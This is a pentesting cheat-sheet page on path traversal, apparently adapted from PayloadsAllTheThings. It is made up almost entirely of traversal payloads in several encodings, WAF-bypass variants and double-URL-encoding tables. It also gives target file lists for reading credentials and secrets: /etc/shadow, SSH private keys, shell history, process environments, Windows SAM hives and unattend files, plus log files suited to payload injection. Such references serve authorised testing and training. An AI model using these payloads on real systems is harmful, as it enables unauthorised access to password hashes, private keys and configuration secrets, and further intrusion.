 ```yaml
---
icon: slash-forward
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Path Traversal

## Basic Payloads

```javascript
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

## Bypasses

```bash
# If WAF removing "../"
..././
...\.\
..;/

# Double URL encoding
. = %252e
/ = %252f
\ = %255c
```

## Interesting Files

### Linux

Interesting files:

*   Operating System and Informations

    ```
    /etc/issue
    /etc/group
    /etc/hosts
    /etc/motd
    ```
*   Processes

    ```
    /proc/[0-9]*/fd/[0-9]*   # first number is the PID, second is the filedescriptor
    /proc/self/environ
    /proc/version
    /proc/cmdline
    /proc/sched_debug
    /proc/mounts
    ```
*   Network

    ```
    /proc/net/arp
    /proc/net/route
    /proc/net/tcp
    /proc/net/udp
    ```
*   Current Path

    ```
    /proc/self/cwd/index.php
    /proc/self/cwd/main.py
    ```
*   Indexing

    ```
    /var/lib/mlocate/mlocate.db
    /var/lib/plocate/plocate.db
    /var/lib/mlocate.db
    ```
*   Credentials and history

    ```
    /etc/passwd
    /etc/shadow
    /home/$USER/.bash_history
    /home/$USER/.ssh/id_rsa
    /etc/mysql/my.cnf
    ```
*   Possible payload injectable files:\


    ```
    /var/log/apache/access.log
    /var/log/apache/error.log
    /var/log/httpd/error_log
    /usr/local/apache/log/error_log
    /usr/local/apache2/log/error_log
    /var/log/nginx/access.log
    /var/log/nginx/error.log
    /var/log/vsftpd.log
    /var/log/sshd.log
    /var/log/mail
    ```

### Windows

Interesting files:

```bash
# Always existing files in recent Windows
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
C:\Windows\win.ini

c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)\
